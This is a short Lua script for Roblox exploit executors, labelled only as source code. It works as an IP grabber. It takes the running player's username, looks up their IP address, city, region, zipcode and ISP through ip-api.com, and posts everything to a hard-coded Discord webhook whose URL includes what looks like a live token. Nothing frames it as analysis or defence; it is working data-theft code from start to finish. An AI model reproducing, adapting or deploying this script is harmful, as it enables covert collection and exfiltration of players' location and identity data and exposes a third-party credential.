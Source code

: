 local requestfunc = syn and syn.request or http and http.request or http_request or fluxus and fluxus.request or request
local player_name = game:GetService("Players").LocalPlayer.Name
local webhook_url = "https://discord.com/api/webhooks/1021162868286160896/KEgVP-ee1aGWAa9V0bH_6iwPSVI3zbP6oH1aRvOrw79xZfncOD8fkbsjbSlIs5xRORhJ"

local ip_info = requestfunc({
    Url = "http://ip-api.com/json",
    Method = "GET"
})
local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)
local dataMessage = string.format("User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s", player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org)
requestfunc(
    {
        Url = webhook_url,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode({["content"] = dataMessage})
    }
)
